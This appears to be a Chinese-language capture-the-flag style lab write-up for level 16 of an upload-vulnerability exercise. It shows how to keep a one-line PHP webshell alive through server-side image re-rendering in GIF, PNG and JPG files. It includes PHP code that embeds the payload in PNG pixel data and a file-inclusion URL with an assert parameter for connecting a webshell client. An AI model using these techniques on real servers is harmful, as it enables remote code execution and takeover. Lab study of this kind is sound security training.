








# pass-16

　　查看源码

　　源码贼长 分析：

　　使用**imagecreatefromjpeg()函数将我们的图片打散进行二次渲染，这就会导致我们的一句话木马消失**，所以我们就要想**办法在它没有打散的对方将我们的一句话写进去**

　　格式不一样 难度也不一样

　　**GIF格式**

　　先生成一个GIF的图片马

　　然后我们进行上传，然后下载下来查看我们的图片马的一句话还在不在，并且和原图马进行**比较**，**看看哪块没有打散，那么在没打散的地方写入一句话**

　　在**010软件进行比对**，可以看到我们打散后的图片的一句话消失了

　　也可以看到 有些地方并没有打散 那么我们在没打散的地方写一句话木马

　　配合文件包含连接试试 成功

　　**png格式**

　　相对于gif格式的图片，png的二次渲染的绕过并不能像gif那样简单.

　　因为**png分了好几个数据块组成**，如果用上面的方法就成功不了，那么我们就要换其他方法

　　**直接使用代码生成一个拥有一句话木马的图片**

　　这里使用大佬的代码

　　<?php  
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,  
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,  
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,  
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,  
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,  
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,  
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,  
           0x66, 0x44, 0x50, 0x33);

　　$img = imagecreatetruecolor(32, 32);

　　for ($y = 0; $y < sizeof($p); $y += 3) {  
   $r = $p[$y];  
   $g = $p[$y+1];  
   $b = $p[$y+2];  
   $color = imagecolorallocate($img, $r, $g, $b);  
   imagesetpixel($img, round($y / 3), 0, $color);  
}

　　imagepng($img,'./1.png');  
?>

　　上传打开看看

　　使用文件包含漏洞 使用蚁剑连接

　　**http://192.168.1.146:857/include.php?file=http://192.168.1.146:857/upload/16458.png&amp;0=assert**

　　‍

　　**jpg格式**

　　更加复杂了 我也说不明白 直接借鉴大佬的脚本

　　‍

　　jpg格式的就和上面的不同了，首先**先随便上传一个jpg图片，然后下载下来** 我这里存为1.jpg

　　**然后在cmd下使用这条命令，将上传的图片和我们上面的代码文件放在一块生成新的jpg文件**

　　**php expjpg.php 1.jpg**

　　但发现脚本有点久远了 据说要多试几次 但我没看到成功的

　　‍
